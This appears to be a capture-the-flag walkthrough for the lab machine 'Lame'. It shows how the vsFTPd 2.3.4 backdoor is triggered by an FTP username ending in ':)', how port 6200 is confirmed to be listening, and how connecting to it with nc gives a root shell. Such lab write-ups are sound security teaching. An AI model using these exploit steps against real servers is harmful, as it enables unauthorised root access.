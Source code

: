 ## Task 10

> When the VSFTPd backdoor is trigger, what port starts listening?

We trigger the exploit again from our attack box (any username with `:)` causes a backdoor to open. [This backdoor supposedly opens on port `6200`](https://armaan0957.medium.com/metasploitable2-the-ftp-massacre-part-2-vsftpd-2-3-4-backdoor-anonymous-access-f9eb3e052a15).

## Task 11

> When the VSFTPd backdoor is triggered, does port 6200 start listening on Lame?

```
$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:kali): lol:)
331 Please specify the password.
Password:
```

Then, on the reverse shell, I'll run `netstat -tlnp` again and discover one more
port is listening:

```
tcp        0      0 0.0.0.0:6200            0.0.0.0:*               LISTEN      5953/vsftpd
```

Then, we can use the backdoor (from the inside, because of the firewall), to confirm the exploit does actually work:

```
root@lame:/home/makis# nc 127.0.0.1 6200

id
uid=0(root) gid=0(root)
```

So, `yes` it does work!
